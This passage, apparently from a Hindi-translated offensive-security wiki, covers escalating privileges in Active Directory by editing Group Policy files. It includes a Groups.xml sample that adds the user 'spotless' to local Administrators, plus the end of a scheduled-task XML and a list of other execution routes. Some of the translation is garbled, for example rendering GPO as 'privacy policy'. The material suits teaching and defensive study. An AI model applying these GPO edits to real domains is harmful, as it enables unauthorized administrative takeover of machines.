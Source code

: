 ```markup
</TimeTrigger>
</Triggers>
</Task>
</Properties>
</ImmediateTaskV2>
</ScheduledTasks>
```
{% endcode %}

### उपयोगकर्ता और समूह <a href="#users-and-groups" id="users-and-groups"></a>

यही विशेषाधिकार उन्नयन गोपनीयता नीति (GPO) उपयोगकर्ता और समूह सुविधा का दुरुपयोग करके प्राप्त किया जा सकता है। नीचे दिए गए फ़ाइल में ध्यान दें, जहां पंक्ति 6 में उपयोगकर्ता `spotless` को स्थानीय `administrators` समूह में जोड़ा जाता है - हम उपयोगकर्ता को कुछ और में बदल सकते हैं, एक और उपयोगकर्ता जोड़ सकते हैं या यहां तक कि हम उपयोगकर्ता को दूसरे समूह / कई समूहों में जोड़ सकते हैं क्योंकि हम GPO विनियामक फ़ाइल को दिखाए गए स्थान में संशोधित कर सकते हैं जो हमारे उपयोगकर्ता `spotless` को सौंपा गया है:

{% code title="\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\Groups" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">
<Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
<Members>
<Member name="spotless" action="ADD" sid="" />
</Members>
</Properties>
</Group>
</Groups>
```
{% endcode %}

इसके अलावा, हम लॉगऑन/लॉगऑफ स्क्रिप्ट का उपयोग करने, ऑटोरन के लिए रजिस्ट्री का उपयोग करने, .msi को स्थापित करने, सेवाओं को संपादित करने और इसी तरह के कोड निष्पादन मार्गों का विचार कर सकते हैं।

## संदर्भ

* प्राथमिक रूप से, यह जानकारी अधिकांश रूप से [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) से कॉपी की गई थी।
* [https://wald0.com/?p=112](https://wald0.com/?p=112)
* [https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
* [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [https://adsecurity.org/?p=3658](https://adsecurity.org/?p=3658)
* [https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryaccessrule.-ctor?view=netframework-4.7.2#System\_DirectoryServices\_ActiveDirectoryAccessRule\_\_ctor\_System\_Security\_Principal\_IdentityReference\_System\_DirectoryServices\_ActiveDirectoryRights\_System\_Security\_AccessControl\_AccessControlType\_](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryaccessrule.-ctor?view=netframework-4.7.2#System\_DirectoryServices\_ActiveDirectoryAccessRule\_\_ctor\_System\_Security\_Principal\_IdentityReference\_System\_DirectoryServices\_ActiveDirectoryRights\_System\_Security\_AccessControl\_AccessControlType\_)
